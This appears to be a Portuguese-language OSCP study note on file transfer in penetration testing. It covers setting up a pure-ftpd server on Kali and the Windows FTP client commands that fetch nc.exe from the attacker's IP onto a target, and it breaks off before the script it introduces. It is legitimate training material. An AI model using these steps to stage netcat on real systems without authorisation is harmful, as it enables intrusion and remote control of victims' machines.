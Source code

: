 Transfering files
========================


# Downloading 

## FTP
Preparing FTP server 

    sudo apt update
    sudo apt install pure-ftpd
    
    
Script para setup adequado do serviço FTP
       
    cat ./setup-ftp.sh
    
    #!/bin/bash

    sudo groupadd ftpgroup
    sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    sudo pure-pw useradd offsec -u ftpuser -d /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/ftphome
    sudo pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    sudo ln -s ../conf/PureDB 60pdb
    #sudo mkdir -p /ftphome
    sudo chown -R ftpuser:ftpgroup /home/kali/ownCloud/owncloud/Area_de_trabalho/estudos/oscp/ftphome
    sudo systemctl restart pure-ftpd

O windows como cliente ficaria com os seguntes comandos:

    ftp -n -v
    open 192.168.0.253
    user offsec
    lab
    bin
    get nc.exe
    bye
    
onde:

-n é para evitaar a solicitação de prompt de login
-v para evitar verbose output

open: inicia a conexão com o IP do atacante
user: informar usuário e senha
bin: modo binário de transferência
get: obter um determinado arquivo

OBS: Existe a opção de mget também, para obter diversos arquivos de uma vez

Para fazer isso de maneira não interativa, podemos informar o parâmetro "-s"

e salvar os seguintes comandos em um arquivo:
